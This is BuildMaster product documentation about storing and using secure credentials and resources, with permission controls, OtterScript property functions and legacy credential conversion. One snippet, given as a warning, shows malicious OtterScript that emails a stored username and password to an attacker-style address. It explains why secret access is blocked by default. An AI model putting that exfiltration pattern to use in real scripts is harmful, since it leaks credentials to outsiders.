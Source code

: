 ```yaml
---
title: Credentials & Resources
keywords: buildmaster, executions, resource-credentials
show-headings-in-nav: true
sequence: 200
---
```


BuildMaster has two related features that help you share resources across applications:

* **Secure Credentials** store accounts, logins, and access keys that contain secrets (i.e. encrypted fields that are visible only to privileged users)
* **Secure Resources**  provide access to a particular resource (such as a Git repository), and may be associated with a Secure Credential

### Secure Credential & Secure Resource Types
There are a few types of credentials that are built-in to BuildMaster:

* **Private Key** is primarily used by the SSH-based agent when key-based authentication is needed.
* **Username & Password** contains a username (visible) and password (secret), and is used to represent a general-purpose account, such as a Windows domain account.
* **API Key/Token** contains just a token property (which is secret), and is used by a variety of resources


There are also a few built-in resource types:

* **Inedo BuildMaster**; Connect to an instance of BuildMaster.
* **Inedo Otter**; Connect to an instance of Otter.
* **Inedo ProGet**; Connect to an instance of ProGet.
* **NuGet Package Feed**; Interact with packages on a NuGet feed.
* **Universal Package Feed**; Interact with packages on a ProGet-hosted universal feed.

However, because these are implemented as [extensions](/docs/buildmaster/administration/extensions), many integrations like [Azure DevOps](/docs/buildmaster/integrations/azure-devops/source-control), [Jira](/docs/buildmaster/integrations/jira), [Jenkins](/docs/buildmaster/integrations/jenkins), etc. will add additional types.

## Creating & Editing Secure Credentials {#creating-editing-credentials data-title="Creating & Editing Secure Credentials"}

You manage secure credentials under Application Settings > Credentials or Administration > Secure Credentials. 

All secure credentials have the following properties:

*   **Name** - a name of up to 50 characters that will be used to reference the resource credential; while you can change the name later, any operation or component that relied on that name will no longer be able to find it
*   **Application** - indicates whether the secure credential is an application-level credential or global (shared)
*   **Environment** - optional; restricts what environments the credential may be used in, and which users have access to it
*   **OtterScript Usage** - optional; you can allow the `$CredentialProperty` variable function to extract secure properties
*   **Environment Restriction** - optional; when set, a runtime error will occur when this credential is used in a deployment plan that is not running in the same environment

Depending on the type of secure credential, there will be other fields like Username or Password that you can edit.

Secret fields (like Password) will be displayed as an empty textbox, and entering a value in the textbox will change it. You can click the "Show Secret fields" button to show these values if you have the appropriate permissions.

## Using Credentials and Resources {#credentials-and-otterscript data-title="Using Credentials and Resources"}

Most Operations that work with resources and/or credentials will let you use a secure resource name and/or a secure credential name. 

For example, although the `AzureDevOps::Get-Source` operation has all the properties necessary to connect to a Azure DevOps repository (InstanceUrl, Usernname, Token, Project, etc.), you can simply specify a configured secure resource name instead.

````
AzureDevOps::Get-Source
(
    From: MyAzureDevOpsResource
);
````

At runtime, the operation will search for a secure resource named `MyAzureDevOpsResource`. If that secure resource has a secure credential name configured, then the associated secure credential will also be used. 

Note that, if the credential has "restricted to environment use" configured, then this will only be permitted if the deployment plan is running in the same environment. This can be frustrating and unintuitive to your users, so be careful when using it.

## Limiting Secure Credential Access {#limiting-access data-title="Limiting Secure Credential Access"}

You may want to permit or restrict certain users from accessing certain secure credentials, such as allowing Developers to manage credentials in the Integration and Testing environments. This is done by associating credentials with an environment, and then creating the appropriate [access controls](/docs/buildmaster/administration/users-and-security) scoped to that environment.

There are two task attributes you can use to control this access:

*   **Manage Credentials** will allow you to view, delete, and edit credentials, but not view existing encrypted/sensitive fields
*   **View Passwords** will allow you to view encrypted/sensitive fields on a credential

On the manage credentials page, users will only see the credentials they have permission to manage, and will only be able to create credentials in permitted environments.

## Accessing Properties from OtterScript {#credentials-as-variables data-title="OtterScript Usage"}

Most Operations will simply input the name of a Secure Resource or Secure Credential, and use the properties you've configured. However, there may be times when you need to access the configured properties, such as such as if you want to pass a username or password to a script or command-line utility.

To access the properties of a configured Secure Credential or Secure Property from within OtterScript, you can use the [$SecureCredentialProperty](/docs/buildmaster/reference/functions/credentials/securecredentialproperty) and [$SecureResourceProperty](/docs/buildmaster/reference/functions/credentials/secureresourceproperty) functions.

````
set $host = $CredentialProperty(InternalProGet, ServerUrl);

exec sometool.exe --host $host;
````

By default, accessing secret properties of a secure credential will raise an error. This is to prevent malicious OtterScript like this:

````
# NOTE - this won't actually work unless you explciitly allow it
Send-Email
(
    To: hacker45@agam.ru,
    Subject: Username is $HdarsUser and password is $HdarsPassword
);
````

If you absolutely need to access secret field on a Secure Credential (such as a Password or API Token), you'll need to enable variable usage on that credential. Here is a case where you may need to do that:

````
set $HDarsUser = $SecureCredentialProperty(UsernamePassword::HDarsUser, UserName);
set $HDarsPassword = $SecureCredentialProperty(UsernamePassword::HDarsUser, Password);
exec hdars-tool.exe --user $HdarsUser -- pass $HdarsPassword;
````

If you have important credentials, you should strongly consider writing a custom operation that can securely handle the credentials.


## Legacy Resource Credentials (BuildMaster 6.1) {#61 data-title="Resource Credentials (BuildMaster 6.1)"}
Prior to BuildMaster 6.2, a single feature called "Resource Credentials" was used instead of Secure Credentials and Secure Resources. These will appear with a warning icon on the secure credentials page.

While Resource Credentials are considered a "Legacy Feature", you can still create and edit them as needed. In some cases, such as custom/community extensions, they may be the only option, until the extension is adapted to use the new features.

Many operations that utilize a Secure Resource will attempt to search for a Resource Credential if the specified Secure Resource was not found. This enables upgrades without breaking previous OtterScripts plans and modules. 

### Converting to Secure Credentials & Resources
You can "convert" a Resource Credential into a Secure Credentials and/or Secure Resources from the manage secure credentials page. This is a one-way conversion, so make sure to save important information (like the password) if you need to recreate it.

For example, a "GitHub Resource Credential" would convert to a "GitHub Account" (Secure Credential) and a "GitHub Project" (Secure Resource), unless the Username was empty; in that case, it will only be converted to a Secure Resource.

### Legacy Resource Credential Cascading Rules

BuildMaster v6.1.10 introduced "cascading resource credentials", which allowed for credentials to be created at the application-group level. A resource credential could also "inherit" from another resource credential, which would cause specific properties to be overriden. 

For example, an individual application's resource credentials could specify a system-level parent that has username/password information stored for a full system, and then override just the "repository URL". This way, you can specify the secret value in one location (with elevated privileges required to access it), and connect to different repositories consistently throughout all applications.

For security reasons, the environment of the parent credential must match the inheritor's exactly, or the parent environment must not be specified (indicating that it applies to all environments)

When resolving a resource credential at execution time, candidates by name are selected in order of matching properties: application + environment, application, application group, ancestor application-group, environment, system.
